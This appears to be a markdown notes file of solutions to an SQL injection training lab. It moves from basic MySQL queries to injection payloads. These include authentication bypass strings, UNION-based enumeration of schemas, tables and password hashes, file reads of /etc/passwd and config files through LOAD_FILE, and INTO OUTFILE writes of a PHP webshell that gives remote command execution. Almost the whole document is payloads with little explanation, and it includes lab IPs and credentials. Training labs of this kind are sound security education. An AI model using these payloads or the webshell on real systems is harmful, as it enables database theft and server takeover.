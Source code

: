 # SQL Injection Fundamentals


# Intro to MySQL


```shell

mysql -u root -ppassword -h 83.136.252.165 -P 33756 

SHOW DATABASES;

```


# Sql Statements


```shell

select * from departments;

```

# Query Results

```shell
select last_name from employees where hire_date='1990-01-01';

```


# SQL Operatores

```shell

SELECT COUNT(*)
FROM titles
WHERE emp_no > 10000
   OR title NOT LIKE '%engineer%';


```
# SQL Operatores


Try to log in as the user 'tom'. What is the flag value shown after you successfully log in? 


```bash

tom' or '1'='1

something # can´t be the same username


```

# Using Comments

Login as the user with the id 5 to get the flag

```bash

' or id = 5 )#

somenting

```

# Union Clause

Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table. 


```bash

mysql -h 94.237.58.91 -P 40577 -u root -ppassword

show databases;

use employees

SELECT * FROM departments UNION SELECT emp_no,birth_date FROM employees;

```

# Union Injection

Use a Union injection to get the result of 'user()' 

```raw

cn' UNION select 1,@@version,3,4-- -

cn' UNION select 1,user(),3,4-- -

```

# Database Enumeration

What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database? 

```bash
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='DATABASE_NAME'-- -

cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='TABELS_NAME'-- -

cn' UNION select 1, username, password, 4 from DATABASE_NAME.TABELS_NAME-- -
cn' UNION select 1, username, password, 4 from ilfreight.users-- -

```

# Reading Files

We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password. 

```bash

cn' UNION SELECT 1, user(), 3, 4-- -

cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
config.php

SELECT LOAD_FILE('/etc/passwd');

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

# CTRL+u to see the php code in the page

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

```

# Writing Files

Find the flag by using a webshell. 

apache

```bash

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

http://94.237.53.113:46435/shell.php?0=ls


```

# skill

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer. 

```bash

username: admin' or '1'='1' -- -
password: some

cn' UNION select 1,2,3,4,5-- -

cn' UNION select "",schema_name,"","","" from information_schema.schemata-- -

cn' UNION select "",table_name,"","","" from information_schema.tables where table_schema='backup'-- -

cn' UNION select "",table_name,column_name,"","" from information_schema.columns where table_schema='backup'-- -


cn' UNION select "",username,password,"","" from backup.admin_bk-- -

admin:Inl@n3_fre1gh7_adm!n

cn' UNION select "",'<?php system("dir /")?>',"","","" into outfile '/var/www/html/dashboard/dir.php'-- -

flag_cae1dadcd174.txt

cn' UNION select "",'<?php system("cat /flag_cae1dadcd174.txt")?>',"","","" into outfile '/var/www/html/dashboard/win.php'-- -



```


